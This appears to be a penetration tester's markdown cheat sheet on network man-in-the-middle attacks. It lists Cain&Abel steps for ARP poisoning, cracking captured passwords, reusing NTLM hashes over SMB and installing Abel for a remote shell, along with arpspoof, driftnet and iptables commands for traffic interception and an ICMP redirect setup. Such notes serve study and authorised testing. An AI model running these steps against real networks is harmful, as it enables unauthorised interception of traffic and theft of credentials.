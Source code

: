 ### Cain&Abel
1. Set the ethernet card
   * `Configure > select card > OK`
2. Sniff network
   * `Sniffer` tab
   * Press `Start/Stop Sniffer` button
   * Press `Host` a right click to `Scan MAC address`
3. ARP poison
   * Press `APR` and `+` sign
   * Press Detonate (`Start/Stop APR`) button
4. Passwords
   * Press `Password`
   * Right click a password and `Crack`
5. SMB connect
   * Press `Network` tab
   * Add IP in `Quick List`
   * Connect with cracked NTLM hashes
6. Install Abel (still on `Network`)
   * Press `Services` tab, right click and `install Abel`
   * Double click IP to refresh the view and go to `Abel` and `Shell`

### arp-spoof
1. Enable IP forwarding (lets the attacking host to send packets to both spoofed machines = traffic goes through the attacking host)
   * `sudo echo 1 > /proc/sys/net/ipv4/ip_forward`
2. Arp spoof - 1st direction
   * `arpspoof -i eth1 -t <target1> -r <host/target2>`</br>
   	  where `-r` -> poisong both hosts
3. Arp spoof - 2nd direction
   * `arpspoof -i eth1 -t <host/target2> -r <target1>`
#### driftnet - capture images from network traffic and display them in an X window; optionally, capture audio streams and play them.
1. While arp-spoof is working
    * `driftnet -i <interface>`

### ICMP redirect attack
ICMP redirect attacks modify the routing table of victim hosts, by misleading victims that they provide a better metric to the target destination outside the LAN.
This redirection causes the victim hosts to update their routing table and insert “better priority” gateway alternatives through the attacker’s host instead to reach the destination network.
1. Enable IP forwarding (lets the attacking host to send packets to both spoofed machines = traffic goes through the attacking host)
   * `sudo echo 1 > /proc/sys/net/ipv4/ip_forward`
2. `iptables -t nat -A POSTROUTING -s <10.100.13.0/255.255.255.0> -o <interface> -j MASQUERADE` - 

## Cool resources
https://ivanitlearning.wordpress.com/2019/05/20/icmp-redirect-attacks-with-scapy/
